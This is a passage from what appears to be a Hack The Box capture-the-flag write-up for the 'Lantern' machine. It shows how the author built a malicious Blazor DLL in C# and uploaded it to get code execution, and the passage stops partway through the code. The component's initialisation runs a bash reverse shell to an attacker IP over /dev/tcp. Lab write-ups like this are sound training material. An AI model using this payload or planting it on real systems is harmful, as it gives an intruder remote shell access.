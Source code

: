 Now that I have access to the admin panel, I will try to gain access to the system. Two intersting stuff.

1 - I can trigger some dll in `/opt/components`.
2 - I can upload files to `/var/www/sites/lantern.htb/static/images`.

Let's try to create a revshell with .NET framework and then upload it.

I don't now anything about C# so it's time to learn but don't expect very precise explanations.

First, let's find a revshell. I can use for example this [revshell](www.revshells.com).

After several unsucessfull text, it forgot about a very important part : The Blazor Framework. This application is using the Blazor framework, therefore, our malicous dll will need to use this framework also.

After a lots of tests on dll uploading (and just a little bit of LLM), I finally came to an end and this one is working !

Let's review the method.

First create a dotnet project : `dotnet new classlib -n uilop`.

Add this code in the `Class1.cs`.

```C#
using Microsoft.AspNetCore.Components;
using Microsoft.AspNetCore.Components.Rendering;
using System.Diagnostics;
using System.Threading.Tasks;

namespace uilop
{
    public class Component : ComponentBase
    {
        private string _shellOutput;

        protected override async Task OnInitializedAsync()
        {
            // Execute the reverse shell command asynchronously
            _shellOutput = await ExecuteReverseShellAsync();
        }

        private Task<string> ExecuteReverseShellAsync()
        {
            return Task.Run(() =>
            {
                try
                {
                    Process proc = new Process
                    {
                        StartInfo = new ProcessStartInfo
                        {
                            FileName = "/bin/bash",  // Use "cmd.exe" or "powershell.exe" on Windows
                            Arguments = "-c \"bash -i >& /dev/tcp/10.10.16.15/1234 0>&1\"",
                            UseShellExecute = false,
                            RedirectStandardOutput = true,
                            RedirectStandardError = true,
                            CreateNoWindow = true
                        }
                    };

                    proc.Start();

                    // Capture the output
                    string output = proc.StandardOutput.ReadToEnd();
                    proc.WaitForExit();
```
